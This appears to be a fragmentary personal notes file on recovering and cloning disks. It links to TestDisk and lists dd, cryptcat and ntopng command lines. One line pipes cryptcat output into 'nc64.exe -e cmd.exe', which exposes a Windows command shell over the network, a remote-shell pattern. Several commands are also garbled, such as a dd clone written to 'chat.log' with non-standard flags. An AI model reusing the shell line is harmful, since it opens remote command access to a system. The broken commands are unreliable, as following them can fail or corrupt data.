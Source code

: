 # How to retrieve disks and clone them.

# Also use testdisk - Whole retrieval

Recover untouched files.

https://www.cgsecurity.org/wiki/TestDisk_Download

Retrieve disks...

xt1955-2 64gb pvt1 - USB Stick

dd if=\\?\Device\Harddisk0\DR0 of=E:\256GB-Backup\chat.log bs=1024 --size --progress

c:\Toolz\Cryptcat_x86-x64_Win10_Stable\cryptcat x64>cryptcat-x64.exe -v -n -u 192.168.0.30 9999 -k heart > chat.log | nc64.exe -e cmd.exe

ntopng /c -i 8 -m 192.168.0.1/24 

CIDR Notation | Upper.
